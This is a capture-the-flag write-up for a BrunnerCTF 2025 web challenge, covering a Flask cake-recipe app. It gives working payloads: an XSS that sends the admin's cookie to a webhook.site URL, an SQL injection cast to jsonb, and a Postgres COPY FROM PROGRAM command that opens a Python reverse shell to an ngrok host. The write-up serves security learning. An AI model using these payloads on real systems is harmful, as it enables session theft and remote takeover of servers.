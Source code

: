 Judging from the session cookie pattern, it's a Flask application. There is an XSS in the ingredients field, and you can submit your recipe to the admin.

```
<img src=x onerror=fetch('https://webhook.site/d559bc0f-3038-48d0-8cda-6d7b229a19d4/?c='+btoa(document.cookie))>
```

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-cookie.png)

Login with the admin's cookie and you get an admin panel. There is an SQL injection here.
However, the query is expecting type jsonb. 
![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-cookie.png)

You can throw other errors to know it's postgres, then cast your column with `::jsonb`.
![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-jsonb.png)

I got unintended solution for this, but there is a default config for Postgres 9.3 < 11.2 that allows you to execute commands using `COPY FROM PROGRAM`. I couldn't create my own tables so I used the existing cakes table. (img 4)

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/cakearchitect-postgres-rce.png)

Payload to get shell on the box:
```
{"cake_id":"'5555'; COPY cakes FROM PROGRAM 'python3 -c ''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"0.tcp.ap.ngrok.io\",17769));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")''';-- -"}
```

Intended solution I believe is to enumerate enabled extensions and get RCE using `plpython3u`

This was in the challenge's init_db.sql
```
CREATE EXTENSION IF NOT EXISTS plpython3u;
```

Flag : `brunner{XSS_y0UR_w4y_T0_Pyth0N3_1N_P0sTgR35?!}`

Solved by: benkyou